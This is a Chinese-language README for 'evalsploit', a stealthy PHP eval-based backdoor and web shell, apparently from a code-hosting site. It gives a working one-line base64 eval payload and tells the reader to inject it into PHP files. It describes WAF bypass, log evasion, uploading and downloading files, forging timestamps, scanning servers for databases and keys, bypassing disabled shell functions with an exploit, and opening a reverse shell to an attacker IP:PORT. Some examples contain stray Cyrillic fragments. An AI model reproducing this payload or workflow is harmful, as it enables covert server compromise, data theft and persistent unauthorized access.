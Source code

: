 # evalsploit 中文版


基于 eval function 的后门，可作为独立的 web-shell（网页后门）


### 功能

-   **隐身**
    -   适用于POST请求 ，几乎不可见日志
    -   内置WAF 旁路功能
    -   每个新会话都有新的用户代理
    -   隐身操作设置


-   **通用**
    -   有效载荷可添加到PHP代码的任何部分
    -   适用于Linux、Windows、Mac OS

# 使用手册

#### 入门

1) 使用有效载荷感染PHP或作为一个独立的外壳
`if(isset($_POST['Z'])){@eval(base64_decode(str_replace($_POST['V'], '' ,$_POST['Z'])));die();}`
2) 当启动程序时，evalsploit将需要链接到含有效负荷的文件
3) 当更改send模块（见于“程序设置”）时，使用gen指令生成新的有效负载

#### 使用文件系统

-   `ls`: 该目录中文件的列表и 
	-   设置 `ls`：基于DirectoryIterator function（默认支持）
	-   设置 `dir`：基于ScanDir function

-   `cp`: 复制文件 
    -  使用分隔号 ` : ` (/что.txt : /куда/что.txt)

-   `cd`: 通过文件系统进行移动

-	`mkd`: 创建新目录

-	`upl`: 上传文件到服务器

-	`home`: 回到 \_\_DIR\_\_

-	`pwd`: 打印活动目录

#### 使用文件

-   `cat`: 打印文件目录
    -   	设置 `html`: 基于 htmlentities
	-   	设置 `base64`: 基于 base64_encode\base64_decode (设置默认)

-   `rm`: 删除文件

-   `dl`: 下载文件（下载到/下载文件夹）
	-	不能处理大于100MB的文件
	
-   `edit`: 编辑文件内容
	-	不能处理大于100MB的文件

-	`mkf`: 创建新文件

-	`touch`: 更改文件时间戳
	-	使用 ` settime ` (file.php settime Year-Month-Day Hour:Minute:Second)

-	`stat`: 文件信息

-	`ren`: 重命名文件
	-		使用分隔 ` : ` (/where/old.txt : new.php)


#### 使用evalsploit系统

-   `run`: 切换到命令行模式
	-	`exit` 退出模式
	-	支持 exec, shell_exec, system, passthru, popen, proc_open, expect_popen, pcntl_exec, do
	
-	`info`: 服务器信息
	-	php 版本, OS
	
-	`scan`: 扫描所选目录
	-	搜索系统 PHP, 数据库、密钥等
	
-	`exploit`: 使用内置漏洞绕过已禁用的命令行，激活命令行模式
	-	`exit` 退出模式

-	`reverse`: reverse-shell `reverse IP:PORT`
	
-	`gen`: 根据发送模块生成有效负载
	
-	`help`: 首页
	
-	`exit`: 退出
	
	
	
#### 程序设置

-	`set`: 配置模块。要查看参数列表请使用 `set module help`
	-	代替 `help` 可接受 `-h`, `h`, `?`, `/?`)
	-	**run**: `exec`, `shell_exec`, `system`, `passthru`, `popen`, `proc_open`, `expect_popen`, `pcntl_exec`, `do`
	-	**ls**: `ls`, `dir`
	-	**cat**: `html`, `base64`
	-	**silent**: `1`, `0` (隐身)
	-	**reverse**: `ivan`, `monkey` 
	-	**send**: `bypass`, `classic`, `simple` (发送模块)
	
